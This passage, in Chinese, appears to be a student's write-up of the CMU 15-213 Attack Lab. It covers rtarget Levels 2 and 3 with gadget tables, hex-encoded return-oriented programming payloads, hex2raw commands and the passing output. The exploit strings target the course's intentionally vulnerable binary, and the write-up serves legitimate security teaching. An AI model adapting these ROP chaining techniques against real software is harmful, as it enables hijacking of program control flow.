    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    ab 19 40 00 00 00 00 00 /* popq %rax nop ret */
    fa 97 b9 59 00 00 00 00 /* cookie */
    c5 19 40 00 00 00 00 00 /* mov %rax, %rdi nop ret */
    ec 17 40 00 00 00 00 00 /* return to touch2 */
    $ ./hex2raw < rtarget_lv2.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00

可以看到，我们构建的字符串攻击成功，Level 2完成！
至此，按照实验的要求，我们已经完成了95%的内容。但95%肯定不能满足，继续 ``rtarget`` Level 3的攻击！

Level 3
''''''''

**实验说明：**

同上， ``rtarget`` Level 3的要求同 ``ctarget`` 一致，即在重定向到 ``touch3`` 之前传入cookie字符串的指针参数。
不过这次我们要用返回导向编程的方式攻击。提示一共需要8组攻击套件。

**攻击思路：**

一开始看到题目，好像并没有什么特别明确的思路。 回忆 ``ctarget`` Level 3中，我们是在栈上构建的字符串中包含了cookie的字符串，并在栈上执行把cookie字符串的地址赋给 ``%rdi`` 的汇编指令。
同样，这种做法因为 ``rtarget`` 的栈不可执行而无法实现。不过既然返回导向编程攻击的方式是利用 ``start_farm`` ~ ``end_farm`` 之间的函数来构造我们的攻击套件库，我们可先根据提供的指令编码表，将所有的攻击指令套件汇总，如下表所示。

+----------------+----------+-----------------+------------------------------+
| Function name  | Address  | Encoding        | Instruction                  |
+================+==========+=================+==============================+
| addval_219     | 0x4019ab | 58 90 c3        | popq %rax nop ret            |
| setval_426     | 0x4019c5 | 48 89 c7 90 c3  | movq %rax, %rdi nop ret      |
| getval_481     | 0x4019dd | 89 c2 90 c3     | movl %eax, %edx nop ret      |
| addval_190     | 0x401a06 | 48 89 e0 c3     | movq %rsp, %rax ret          |
| addval_436     | 0x401a13 | 89 ce 90 90 c3  | movl %ecx, %esi nop nop ret  |
| addval_187     | 0x401a27 | 89 ce 38 c0 c3  | movl %ecx, %esi cmpb %al ret |
| getval_159     | 0x401a34 | 89 d1 38 c9 c3  | movl %edx, %ecx cmpb %cl ret |
| addval_487     | 0x401a42 | 89 c2 84 c0 c3  | movl %eax, %edx testb %al ret|
| getval_311     | 0x401a69 | 89 d1 08 db c3  | movl %edx, %ecx orb %bl ret  |
| addval_358     | 0x401a86 | 89 e0 90 c3     | movl %esp, %eax nop ret      | 
| setval_350     | 0x401aad | 48 89 e0 90 c3  | movq %rsp, %rax nop ret      |
| add_xy         | 0x4019d6 | 48 8d 94 37 43  | lea (%rdi, %rsi, 1),%rax retq|
+----------------+----------+-----------------+------------------------------+

看到指令 ``lea (%rdi, %rsi, 1),%rax`` 的直觉是基地址加上偏移量寻址。
再倒推 ``%rdi`` 的赋值过程： ``movq %rax, %rdi`` <-- ``movq %rsp, %rax`` 或 ``popq %rax``。
同理，倒推 ``%rsi`` 的赋值过程： ``movl %ecx, %esi`` <-- ``movl %edx, %ecx`` <-- ``mov %eax, %edx`` <-- ``movq %rsp, %rax`` 或 ``popq %rax``。
由此，我们可以有一个初步的思路，即将 ``%rdi`` 设为栈的基准地址， ``%rsi`` 设为字符串到基准地址的偏移量，偏移量的地址可通过 ``popq %rax`` 弹出写入栈中的数值。
从构建 ``touch3`` 的返回地址一步步反推，得到的栈的构成图如下图所示：

.. image:: ./../_images/rtarget_lv3.png


按照图中的顺序构建我们的字符串：

.. code-block:: console

    $ cat rtarget_lv3.txt
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    06 1a 40 00 00 00 00 00 /* movq %rsp, %rax ret */
    c5 19 40 00 00 00 00 00 /* movq %rax, %rdi ret */
    ab 19 40 00 00 00 00 00 /* popq %rax nop ret */
    48 00 00 00 00 00 00 00 /* index to string */
    42 1a 40 00 00 00 00 00 /* movl %eax, %edx testb %al ret */
    69 1a 40 00 00 00 00 00 /* movl %edx, %ecx orb %bl ret */
    27 1a 40 00 00 00 00 00 /* movl %ecx, %esi cmpb %al ret */
    d6 19 40 00 00 00 00 00 /* lea (%rdi, %rsi, 1),%rax ret */
    c5 19 40 00 00 00 00 00 /* movq %rax, %rdi nop ret */
    fa 18 40 00 00 00 00 00 /* entry for function touch3 */
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    $ ./hex2raw < rtarget_lv3.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61

``rtarget`` Level 3攻击成功！

0x04. 总结和评价
----------------

这个实验从开始做到完成实验报告，断断续续地花了一个多月。 ``rtarget`` Level 3第一遍做地时候“偷看到了”了别人的思路，尤其是利用 ``lea (%rdi, %rsi, 1),%rax`` 的关键作用。
总的来说，这个实验帮助我深入地了解了缓冲区溢出攻击的原理和应用，浅浅地体会了一把黑客的感觉:)




